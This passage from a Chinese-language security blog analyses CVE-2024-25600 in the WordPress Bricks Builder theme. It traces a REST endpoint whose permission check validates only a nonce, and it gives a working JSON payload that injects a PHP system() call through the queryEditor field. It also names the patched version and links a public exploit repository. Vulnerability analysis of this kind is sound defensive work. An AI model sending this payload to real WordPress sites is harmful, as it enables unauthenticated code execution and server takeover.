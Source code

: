 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEEjpYwPwTqWSY4TJ8K27HMWyJaeNBMMiaXIYK4o7DpibcndlYFYGXEnicdQ/640?wx_fmt=png&from=appmsg "")  
  
在elements.php中，初始化定义了很多name的名称，理论上这些初始化定义的应该都是存在可用的，因此POC里面的name也可以是 section、block、div等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEEDD0icVJIia8aYTU8fn7VXbIR8okolZ5awEWOFLIib8geB0ibpKWHDnX0ibg/640?wx_fmt=png&from=appmsg "")  
  
继续搜render_element的调用方法,发现在api.php中存在命名相同的方法调用了Ajax#render_element，这里的api.php实际上是一个处理注册的 REST API 端点之一的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEEhVRdEUpKGYRj7SksMvOIHRxvf7N79lb21NlHvln4APTGJfz00N0tpQ/640?wx_fmt=png&from=appmsg "")  
  
继续搜索调用，找到在它的自定义初始化端点函数，从中可以看到它定义了很多能够注册的REST路由，API_NAMESPACE的值就是/bricks/v1/，通过后面拼接某个字符串的方式触发对应的callback回调函数以及权限检查。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEETQBDJZGEic3nAe50WQupuOUl9YM3FjibOiaJQA9XsvgBWAdiaJ4gzRnC0g/640?wx_fmt=png&from=appmsg "")  
  
这里的render_element_permissions_check就是检查nonce随机数，但只检查了随机数的值，但是没有检查用户的权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEEdzYkIQBjTY5mCjkfmkWSAQ2N9XOjPvKNFwoYwQiaGuYNYKPmlOngnOA/640?wx_fmt=png&from=appmsg "")  
  
因此payload可以构造为  
```
{
"postId":"1",
"nonce":"6e5b5ffb32",
"element":{
    "name":"div",
    "settings":{
        "hasLoop":"",
        "query":{
            "useQueryEditor":true,
            "queryEditor":"system('calc');throw new Exception();", 
            "objectType":""
        }
    }
}
}

```  
## 0x07修复方式  
  
Bricks Builder 版本 1.9.6.1 或更高版本中已发布解决此漏洞的补丁。  
## 参考连接  
  
https://github.com/Chocapikk/CVE-2024-25600  
  
https://blog.csdn.net/shelter1234567/article/details/136503993  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题  
  